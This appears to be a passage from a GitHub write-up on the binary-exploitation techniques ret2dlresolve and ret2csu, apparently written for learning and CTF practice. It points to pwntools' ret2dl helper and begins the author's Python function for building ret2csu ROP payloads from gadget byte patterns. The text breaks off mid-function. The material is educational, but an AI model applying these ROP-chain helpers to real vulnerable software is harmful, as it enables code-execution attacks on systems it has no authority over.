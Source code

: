`pwntools` has an amazing function to create ret2dl payloads for you.
<https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html>

It makes ret2dl very easy to use, however I recommend knowing how to make the payloads yourself as well.
It'll be useful when something goes wrong and you need to debug your exploit.
Also I believe there are situations where the pwntools function will be unusable, as it assumes that the memory is contiguous. There might be challenges in which you need to split the ret2dl payload in multiple pieces, and splitting the payload provided by pwntools will not work as it would break all of the indexes inside.

# Source Code
Here is the source code I wrote while learning these two techniques.
I believe they are fairly well-commented, and they will definitely help you when learning these techniques yourself.
Obviously you should first read and understand the papers / writeups I linked above.

## ret2csu
```python
def ret2csu(callfuncptr, edi, rsi, rdx, retfunc, *, elf=None, gadget1=None, gadget2=None, 
            rbx_after=0, rbp_after=0, r12_after=0, r13_after=0, r14_after=0, r15_after=0):
    '''
    gadget2:
    mov     rdx, r14
    mov     rsi, r13
    mov     edi, r12d
    call    qword ptr [r15+rbx*8]
    add     rbx, 1
    cmp     rbp, rbx
    jnz     short loc_401178
    add     rsp, 8
    gadget1:
    pop     rbx
    pop     rbp
    pop     r12
    pop     r13
    pop     r14
    pop     r15
    ret
    '''

    if gadget1 == None:
        assert elf != None

        # compiled from pop rbx ... ret
        gadget1_bytes = b'[]A\\A]A^A_\xc3'
        gadget1 = next(elf.search(gadget1_bytes, executable=True))
        log.info(f'Found ret2csu gadget1 at {hex(gadget1)}')

    if gadget2 == None:
        assert elf != None

        # compiled from mov rdx, r14 .... cmp rbp, rbx
        gadget2_bytes = b'L\x89\xf2L\x89\xeeD\x89\xe7A\xff\x14\xdfH\x83\xc3\x01H9\xdd'
        gadget2 = next(elf.search(gadget2_bytes, executable=True))
        log.info(f'Found ret2csu gadget2 at {hex(gadget2)}')


    payload  = b''
    # Jumping to the first gadget
    payload += p64(gadget1)
    
```